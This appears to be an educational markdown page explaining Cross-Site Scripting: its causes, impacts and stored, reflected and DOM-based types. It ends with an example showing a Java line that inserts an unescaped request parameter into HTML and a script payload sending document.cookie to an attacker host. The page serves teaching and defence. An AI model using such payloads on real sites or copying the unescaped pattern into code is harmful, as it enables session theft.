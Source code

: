 # Cross Site Scripting (XSS)

## Overview
Cross-Site Scripting(XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicous code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or enconding it.

An attacker can use XSS to send a malicious script to and unsuspecting user.
The end user's browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokes, or other sensitive information retained by the browser and used with that site.
These scripts can even rewrite the content of the HTML page.

## Description
Cross-Site-Scripting (XSS) attacks occur when:
1. Data enters a Web application thorugh an untrusted source, most frequently a web request.
2. The data is included in dynamic content that is sent to a web user without being validated for malicious content.

The variety of attacks based on XSS is almost limitless, but they commonly include transmitting private data, like cookies or other session information, to the attacker, redirecting the victim to web content controller by the attacker, or performing other malicious operations on the user's machine under the guise of the vulnerable site.

## Impacts
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.

## Types of XSS

### Stored XSS
Stored XSS generally occurs when user input is stored on the target server, such as in a database, in a message forum, visitor log, comment field, etc.
And then a victim is able to retrieve the stored data from the web application without that data being made safe to render in the browser. With the advent of HTML5, and other browser technologies, we can envision the attack payload being permanently stored in the victim's browser, such as an HTML5 database, and never being sent to the server at all.

### Reflected XSS
Reflected XSS occurs when user input is immediately returned by a web application in an error message, search result, or any other response that includes some or all of the provided by the user as part of the request, without that data being made safe to render in the browser and without permanently storing the user provided data. 

### DOM Based XSS
DOM Based XSS is a form of XSS where the entire tainted data flow from source to sink takes place in the browser, i.e., the source of the data is in the DOM, the sink is also in the DOM, and the data flow never leaves the browser. For example, the source (where malicious data is read) could be the URL of the page(e.g., document.location.href), or it could be an element of the HTML, and the sink is a sensitive method call that causes the execution of the malicious data(e.g., document.write).

## Example Attack Scenarios
The application uses untrusted data in the construction of the following snippet without validation or escaping:
```
(String) page += "<input name='creditcard' type='text' value='" + request.getParameter("CC") + "'/>";
```
The attacker modifies the 'CC' parameter in the browser to:
```
<script>document.location='http://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>
```
The attack causes the victim's session ID to be sent to the attacker's website, allowing the attacker to hijack the user's current session.


